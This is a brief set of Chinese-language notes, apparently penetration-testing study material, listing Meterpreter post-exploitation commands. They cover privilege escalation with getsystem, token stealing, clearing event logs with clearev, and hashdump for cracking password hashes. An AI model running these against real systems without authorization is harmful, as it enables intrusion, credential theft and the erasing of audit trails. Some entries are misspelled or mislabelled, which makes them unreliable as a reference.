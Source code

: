 windows,shell中 
```
attrib -h -s *
```

mv/lls/search

移动文件/查看写入执行等属性/查找文件

show_mount查看驱动器

download filename(windows本地) 传输文件到本地
upload

checksum md5(也可以查看其他)查看md5文件指纹



#### 系统命令

ps #列出所有进程

getsysytem -h #提权
getsystem -t 0 #所有可以提权的方式

rev2self #回到初始权限

clearev #清除权限，清除日志

drop_token #从进程窃取

execute -h#执行命令
ep: execute -f notepad
隐藏执行/从内存执行

getenv #获取环境变量
getpid #获取进程id，通过这个来获取tid线程id,ppid父进程

getprivs #根据windows编程当中的函数获取权限
ep: debug

getsid #windows账户机制
getuid #当前账户

kill pid #杀进程
localtime #显示时间

pgrep -h #筛选进程
ep: pgrep notepad（像find）

pkill #通过名称杀进程
pkill notepad

reg #写注册表


run post/windows/gather/hashdump(getsystem)然后通过hash爆破

reboot
shutdown
sysinfo
suspend -h #进程挂起
ep: suspend notepad
suspend -r #恢复
